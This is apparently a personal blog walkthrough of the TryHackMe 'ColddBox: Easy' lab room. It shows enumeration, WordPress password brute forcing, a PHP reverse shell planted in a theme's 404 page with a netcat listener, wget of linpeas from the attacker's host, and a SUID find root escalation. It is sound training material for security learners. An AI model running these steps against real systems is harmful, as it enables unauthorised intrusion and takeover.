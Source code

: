 ColddBox: Easy WriteUp
======================

[July 15, 2021](https://jarrodrizor.com/colddbox-easy-writeup/ "10:14 pm") [Jarrod](https://jarrodrizor.com/author/jarrod/ "View all posts by Jarrod")

This is a WriteUp on how to complete the room [ColddBox: Easy](https://tryhackme.com/room/colddboxeasy) on [TryHackMe](https://tryhackme.com).

![](https://jarrodrizor.com/wp-content/uploads/2021/07/Banner_ColddBoxEasy_THM_.png)

Note* I used Kali Linux to complete this room. The IP address of my room was 10.10.170.248, so that will be the IP you see in the writeup. Replace 10.10.170.248 with the IP of your target box.

Let's begin this room by enumerating and gathering information about the server by doing an Nmap scan to see what ports are open.

Running the command:\
**sudo nmap -sV -T4 -O -oN nmap_scan 10.10.170.248** shows ports 45122 and 80 are open and running SSH and Apache. Note that SSH is running on a different port than normal.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/nmap_coldbox.png)

How this works:\
nmap -- The command used to execute Nmap.\
-sV -- This means Nmap will run a service/version detection scan.\
-O -- Does OS Detection and Fingerprinting.\
-T4 -- This is the timing option. T4 is a good mix of speed and accuracy for CTF's.\
-oN nmap_scan -- This means we want to save the output to a file named nmap_scan for future use.

Since Apache is running on port 80. Let us take a look and see if a website is being hosted on the server. Navigating to http://10.10.170.248 displays a landing page for a WordPress site.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/home_page_coldbox.png)

Looking around the website doesn't show anything interesting and nothing appears in the source code either. Let's do more enumeration with Gobuster and see if we can find hidden files/directories.

Running the command:

**gobuster dir -u http://10.10.170.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_scan.txt** displays hidden directories.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/gobuster_coldbox.png)

How this works:\
gobuster -- The command to execute Gobuster.\
dir -- (scan for directories).\
-u -- Target URL.\
-w -- the wordlist we are using to scan for hidden directories. In this case, I used the wordlist in Dirbuster called directory-list-2.3-small.txt.\
-o -- saves the output to a file. In this case, we are saving to gobuster_scan.txt.

Here are the results of the scan. The interesting directory that stands out is /hidden. Let's take a look.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/gobuster_hidden_coldbox.png)

Navigating to http://10.10.170.248/hidden displays a message note intended for general public, but found with simple scanning techniques.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/hidden_page_coldbox.png)

Since we know this is a WordPress site. Let us bring in another tool to learn more about it. WPScan.

Running the command:

**wpscan --url http://10.10.170.248 --enumerate** will scan the site and give us more information about the WordPress CMS. This displays a lot of information and I encourage you to run it and see all the results from the scan.

How this works:\
wpscan -- The command to execute WPScan.\
--url -- Target URL.\
--enumerate -- Tells WPScan to scan the site to learn about plugins, themes, configs, users and other info.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_pic1_coldbox.png)

The results we should be interested in are the three users. They are philip, c0ldd, and hugo.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_pic3_coldbox.png)

We can use WPScan and see if we can find passwords for these users and log in.

Running the command:

**wpscan --url http://10.10.170.248 --usernames philip,hugo,c0ldd --passwords /usr/share/wordlists/rockyou.txt** begins the brute force process to see if we can find a password for these users.

After a few minutes, we have a hit on the user C0ldd!

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_coldd_password_coldbox.png)

We can now try and log in and the user!

Let's navigate to http://10.10.170.248/wp-login should display the log in page. Let's use the credentials we have and log in.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wp_login_coldbox-1.png)

We now have access to the dashboard. Here we can look around and get more information about our target. What's very interesting and poor configuration on the users end is the WordPress Editor is still enabled. This is located in the menu on the left hand side under Appearance.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wp_dashboard_coldbox.png)

With this feature, we can easily drop in PHP code to perform a reverse shell.

Kali Linux has PHP Reverse Shell scripts located in /usr/share/webshells/php/. The file is named php-reverse-shell.php. Open it with a text editor and we need to update two values. The $ip and $port.

The $ip will be the IP Address. Using the TryHackMe VPN, let's look for tun0 and use that IP! We can find the IP Address with the command **ip addr** (which displays network interfaces).

The $port will be our listening port for the reverse shell. Let's use 4444 as it's out of the range of the known ports.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/reverse_shell_script_coldbox.png)

Before we copy and paste this script to the WordPress Editor, let's get a listener setup with Netcat.

Now let's use Netcat and get into the system!

**Running the Command: nc -lvnp 4444** starts a Netcat listener.

What this does\
nc -- Executes Netcat.\
-l -- Listen for a request.\
-v -- Verbose output.\
-n -- Do not use DNS.\
-p -- What port to listen on.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/listener_coldbox.png)

Now that we have the script set up and the listener going. We need to copy and paste it to the editor to get the reverse shell to fire. We also need to pick a page to use that we can navigate to in the web browser. Let's do the 404.php page as it's easy to find and won't break anything in the template to break the site. Let's open it up in the editor and copy and paste!

![](https://jarrodrizor.com/wp-content/uploads/2021/07/editor_404_coldbox.png)

Now we just need to navigate to a page that doesn't exist to trigger the 404.php page. Let's go to http://10.10.170.248/?p=3 and trigger it! Let's check back to our Netcat listener. We should have a session going and running as www-date.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/remote_login_coldbox-1.png)

We can navigate around the server, but we won't get far as the www-data user. This would be a good time to get Linpeas on the server and let that scan for areas of interest.

The way we can do this is to download the linpeas.sh file from the [GitHub Repository](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_github.png)

With linpeas.sh on our machine, we can start a Python Web Server and **wget** the file to our target server. In the same directory as the linpeas.sh file let us run the command **python3 -m http.server 8888**. This starts a Python Web Server and we can host files here. This will help us do a wget from the target box to pull in the linpeas.sh file.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/python_server_coldbox.png)

In the /tmp folder, run **wget (YOUR IP):8888/linpeas.sh** and that will pull in the linpeas.sh file from the Python Web Server. The last step is to make the file executable with the command **chomd +x linpeas.sh**.![](https://jarrodrizor.com/wp-content/uploads/2021/07/wget_linpeas.png)

Now let's fire linpeas with ./linpeas.sh.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_coldbox.png)

What this is doing is scanning the server for possible vulnerabilities and things we can exploit. It's a very handy enumeration tool for Linux systems.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_interesting_files_coldbox.png)

Linpeas has made a very important discovery. Turns out the find command has an exploitable permission in the form of a SUID. Let's reference [GTFOBins](https://gtfobins.github.io/) and lookup the [Find](https://gtfobins.github.io/gtfobins/find/#suid) command.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/find_coldbo_coldbox.png)

It looks simple enough. Using the find command, we can escalated our privileges to root!

Let's run the command **find . -exec /bin/sh -p \; -quit .\
**

Running whoami should show us that we are now root and can get the root.txt file and user.txt file in /root and /home/c0ldd/.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/becoming_root_coldbox.png)

That completes the room! Well done! If you found this helpful, please send me a [tweet](https://twitter.com/JarrodR87) and tell me what you thought! Feedback is always appreciated!

Jarrod
